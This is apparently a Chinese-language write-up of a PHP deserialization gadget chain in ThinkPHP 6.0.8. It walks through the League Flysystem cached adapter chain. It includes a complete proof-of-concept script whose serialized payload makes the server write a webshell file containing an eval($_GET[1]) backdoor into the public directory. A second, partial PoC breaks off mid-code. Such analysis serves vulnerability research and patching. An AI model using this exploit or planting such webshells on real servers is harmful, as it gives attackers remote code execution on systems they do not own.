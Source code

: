 ### 环境

这里装 tp6.0.8  
composer create-project topthink/think=6.0.x tp6.0.8  
老规矩删 lock 文件改 comoser.json 重新 composer install 一遍

### 调试

很简单的链子。应该是最短的了 Poc:

```plain
<?php
namespace League\Flysystem\Adapter;
class Local{}
namespace League\Flysystem\Cached\Storage;
use League\Flysystem\Adapter\Local;
abstract class AbstractCache{
    protected $autosave;
    protected $cache = [];
}
class Adapter extends AbstractCache{
    protected $adapter;
    protected $file;
    function __construct(){
        $this->autosave=false;
        $this->adapter=new Local();
        $this->file='huahua.php';
        $this->cache=['huahua'=>'<?php eval($_GET[1]);?>'];
    }
}
$o = new Adapter();
echo urlencode(serialize($o));

?>
```

入口点是 abstract class AbstractCache 中的\_\_destruct 方法  
但是 PHP 的抽象方法不能被实例化，因此需要实例化它的子类，这里选择的是 League\\Flysystem\\Cached\\Storage 的 Adapter.php  
然后进入 Adapter.php 的 save() 方法：目标是进入 write() 方法，里面有`file_put_contents,这里参数都可以控制首先看一下getForStorage()方法,它影响了write函数写入文件的内容content它会返回一个json加密的数据,这个参数是cache,protected $cache = [];我们实例化的时候可控进入`cleanContents()`函数:我们只需要传入的cache是一个一维数组就不会进入if语句然后考虑这个this->adapter变量,这里找的是同时具有`has()\`方法和 write() 方法的类，找到的是 League\\Flysystem\\Adapter 的 Local.php  
首先 has 方法我们需要保证返回 false 进入 applyPathPrefix() 很简单的字符串拼接，我们传入的$this->file 只要是一个不存在的文件就行进入 write() 方法一样的先调用 applyPathPrefix() 方法，拼接一下文件路径，这里做的限制是删除路径的/字符，tp 默认写入文件就是 public 目录我们不需要设置路径最后成功写入木马  
此外我们看下 Y4tacker 师傅的 poc

```plain
<?php

namespace League\Flysystem\Cached\Storage{

    use League\Flysystem\Filesystem;

    abstract class AbstractCache{
        protected $autosave = false;


    }
    class Adapter extends AbstractCache
    {
        protected $adapter;
        protected $file;

        public function __construct(){
            $this->complete = "*/<?php phpinfo();?>";
```
